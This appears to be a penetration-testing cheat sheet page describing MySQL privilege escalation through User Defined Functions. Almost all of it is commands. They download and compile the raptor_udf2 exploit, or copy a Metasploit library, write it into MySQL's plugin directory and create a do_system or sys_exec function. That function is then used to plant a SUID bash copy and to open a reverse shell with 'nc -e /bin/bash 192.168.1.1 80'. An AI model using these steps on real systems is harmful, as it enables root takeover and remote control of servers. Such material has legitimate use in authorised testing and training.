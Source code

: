 ```yaml
---
description: PrivEsc with MySQL User Defined Functions
---
```


# MYSQL

* Mysql service is running with root privileges. (ps aux | grep mysql)
* You know root's password. (Database config files or no password for root)
* If you can not access bash(or similar) shell, you can upload library as hex format. You can find this way in the [subpage](hex.md).

Reference: [https://redteamnation.com/mysql-user-defined-functions/](https://redteamnation.com/mysql-user-defined-functions/)

In this way, we will assume you have shell access on the machine. Steps are:

1. Download UDF library source code
2. Compile it on the machine
3. Connect the database
4. Create new function for code execution
5. Voila!

```
$ mkdir /tmp/test && cd /tmp/test
$ wget http://0xdeadbeef.info/exploits/raptor_udf2.c

$ gcc -g -c raptor_udf2.c -fPIC
$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

mysql -u root -p
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/test/raptor_udf2.so'));
# Look for the value of plugin_dir
mysql> show variables like '%plugin%';
mysql> select * from foo into dumpfile '{plugin_directory}raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function | 
+-----------+-----+----------------+----------+
1 row in set (0.00 sec)

mysql> select do_system('cp /bin/bash /tmp/test/rootbash; chmod +xs /tmp/test/rootbash');
```

If you have no chance to compile it and the machine's arch is x86\_64, you can use precompiled binary to create function.

```
$ cp /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.so .

mysql -u root -p
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/test/lib_mysqludf_sys_64.so'));
# Look for the value of plugin_dir
mysql> show variables like '%plugin%';
mysql> select * from foo into dumpfile '{plugin_directory}lib_mysqludf_sys_64.so';
mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';
mysql> select * from mysql.func;
+----------+-----+------------------------+----------+
| name     | ret | dl                     | type     |
+----------+-----+------------------------+----------+
| sys_exec |   2 | lib_mysqludf_sys_64.so | function |
+----------+-----+------------------------+----------+
1 row in set (0.00 sec)

mysql> select sys_exec('nc -e /bin/bash 192.168.1.1 80');
```
